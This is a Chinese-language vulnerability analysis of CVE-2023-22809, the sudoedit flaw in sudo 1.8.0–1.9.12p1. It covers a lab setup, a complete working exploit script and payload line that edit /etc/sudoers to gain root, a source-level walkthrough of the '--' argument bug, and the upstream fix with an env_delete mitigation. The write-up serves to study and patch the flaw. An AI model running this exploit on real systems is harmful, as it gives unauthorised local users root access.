


> [CVE-2023-22809（sudoedit权限提升漏洞）分析](https://www.shellcodes.org/Hacking/CVE-2023-22809%EF%BC%88sudoedit%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%EF%BC%89%E5%88%86%E6%9E%90.html)
>
> https://mp.weixin.qq.com/s/uiAEnK5tqkKh0bqWPoTIKg

漏洞简介：Sudo中的sudoedit对处理用户提供的环境变量（如SUDO_EDITOR、VISUAL和EDITOR）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过sudoers策略的“–”参数时，拥有sudoedit访问权限的本地攻击者可以实现任意文件编辑 ，最终实现权限提升 。

```
◆漏洞评分：7.8分
◆影响版本：sudo 1.8.0-sudo 1.9.12p1(sudo>=1.8.0 or sudo <=1.9.12p1)
```


## 实验环境

VMware Ubuntu22 

sudo-1.9.12p1

test用户拥有执行sudoedit的能力，但不能执行sudo。

### 配置过程

1.安装sudo-1.9.12p1/

```
wget https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
tar -zxvf ./sudo-1.9.12p1.tar.gz
cd sudo-1.9.12p1/
./configure && make && make install
```

 2.设置test用户权限

```
useradd -m test #添加攻击用低权限用户
passwd test -d  #设置为空密码
vim /etc/sudoers  #给test sudoedit权限
添加下面两行
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom_test.txt
test ALL=(ALL:ALL) SUDOEDIT
```

此时sudoedit只能编辑/etc/custom_test.txt。



## 漏洞利用

### 1.EXP  记得行尾保存为Unix格式

```sh
#!/usr/bin/env bash
#

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi
#判断sudoers里有无test ALL=(ALL:ALL) sudoedit
EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
echo "$EXPLOITABLE"
#下面的payload实际上是EDITOR="vim -- /etc/sudoers" sudoedit
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

2.在上面的exp运行时，按两下回车，会自动打开sudoers的编辑界面。

```
将之前的
test ALL=(ALL:ALL) sudoedit
改为-->
test ALL=(ALL:ALL) ALL
保存退出
```

此时，如果不对sudoers进行编辑，退出时会发现，此时执行了三次sudoedit。


3.返回运行exp的界面，回车继续运行。


成功提权。

## 漏洞分析

### 简述

 sudoedit --> plugins/sudoers/editor.c的 find_editor函数--->resolve_editor


执行 sudoedit 时，会调用 plugins/sudoers/editor.c 中的 find_editor 函数，find_editor 会根据 SUDO_EDITOR、VISUAL、EDITOR 三个环境变量设置的编辑器来指定编辑器：

```c
char *
find_editor(int nfiles, char **files, int *argc_out, char ***argv_out,
            char * const *allowlist, const char **env_editor)
{
    /* ... */
    *env_editor = NULL;
    ev[0] = "SUDO_EDITOR";
    ev[1] = "VISUAL";
    ev[2] = "EDITOR";
    for (i = 0; i < nitems(ev); i++) {
        char *editor = getenv(ev[i]);

        if (editor != NULL && *editor != '\0') {
            *env_editor = editor;
            /* 解析环境变量的值 */
            editor_path = resolve_editor(editor, strlen(editor),
                                         nfiles, files, argc_out, argv_out, allowlist);
            if (editor_path != NULL)
                break;
            if (errno != ENOENT)
                debug_return_str(NULL);
        }
    }

    /* ... */
}
```

如果设置了环境变量，就调用 resolve_editor 函数去解析，问题就出在这个函数中，以下为关键代码：

```c
static char *
resolve_editor(const char *ed, size_t edlen, int nfiles, char **files,
    int *argc_out, char ***argv_out, char * const *allowlist)
{
    /* ... */
//从编辑器名称（vim）后的字符串直接开始，通过wordsplit来计算参数（nargc）的数量。
    for (nargc = 1, tmp = ep; wordsplit(NULL, edend, &tmp) != NULL; )
        nargc++;
    if (nfiles != 0)
        nargc += nfiles + 1;
    //根据参数数量申请对应大小的空间（nfiles即要编辑的文件数量）
    nargv = reallocarray(NULL, nargc + 1, sizeof(char *));

    ......

    /* Fill in editor argv (assumes files[] is NULL-terminated). */
    nargv[0] = editor;
    editor = NULL;
    //把参数拷贝到nargv数组中
    for (nargc = 1; (cp = wordsplit(NULL, edend, &ep)) != NULL; nargc++) {
        /* Copy string, collapsing chars escaped with a backslash. */
        nargv[nargc] = copy_arg(cp, ep - cp);
        ......
        //nargv[]={'vim','--','/etc/sudoers'}
    }
    if (nfiles != 0) {
        //出问题的点
        nargv[nargc++] = (char *)"--";
        //nargv[]={'vim','--','/etc/sudoers','--'}
        while (nfiles--)
            nargv[nargc++] = *files++;
         //nargv[]={'vim','--','/etc/sudoers','--','/etc/custom_test.txt'}
    }
    nargv[nargc] = NULL;

    *argc_out = nargc;
    *argv_out = nargv;//最后的输出部分，用于接下来的sudoedit
    //此时，nargv[3]='--'
    /* ... */
}
```

所以如果执行 Payload：

最后一步：sudo_edit

```c
最后一步：sudo_edit

// src/sudo_edit.c@sudo_edit()
int
sudo_edit(struct command_details *command_details)
{
// [...]
/*
* Set real, effective and saved uids to root.
* We will change the euid as needed below.
*/
    //设置了ROOT权限和临时可写目录
    setuid(ROOT_UID);
// [...]
/* Find a temporary directory writable by the user. */
    set_tmpdir(&user_details.cred);
    // [...]
    /*
    * The user's editor must be separated from the files to be
    * edited by a "--" option.
    */
//argv[]={'vim','--','/etc/sudoers','--','/etc/custom_test.txt'}
for (ap = command_details->argv; *ap != NULL; ap++) {
    if (files)
        nfiles++;
    //命令行参数与--比较，如果相同则将下一个内容视为要编辑的文件名
    else if (strcmp(*ap, "--") == 0)
        files = ap + 1;
    else
        editor_argc++;
}
```

```sh
SUDO_EDITOR='vim -- /etc/sudoers' sudoedit /etc/custom_test.txt
```

 其中的“--”就会让/etc/sudoers对应的临时文件可以被编辑，从进程中也能看到： 


## 漏洞修复

>https://github.com/sudo-project/sudo/commit/0274a4f3b403162a37a10f199c989f3727ed3ad4


 如果出现以下提示，说明漏洞已经修复： 

```
	/*
	 * We use "--" to separate the editor and arguments from the files
	 * to edit.  The editor arguments themselves may not contain "--".
	 */
	if (strcmp(nargv[nargc], "--") == 0) {
	    sudo_warnx(U_("ignoring editor: %.*s"), (int)edlen, ed);
```




### 简单补丁

 把受影响的环境变量添加到拒绝列表中。 

```
defaults!SUDOEDIT env_delete+="SUDO_EDITOR VISUAL EDITOR"
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom/service.conf
user ALL=(ALL:ALL) SUDOEDIT
```

 通过sudoedit命令仅编辑`/etc/custom/service.conf`文件，并且您希望禁用他们使用`SUDO_EDITOR`、`VISUAL`和`EDITOR`这些环境变量来更改默认编辑器。 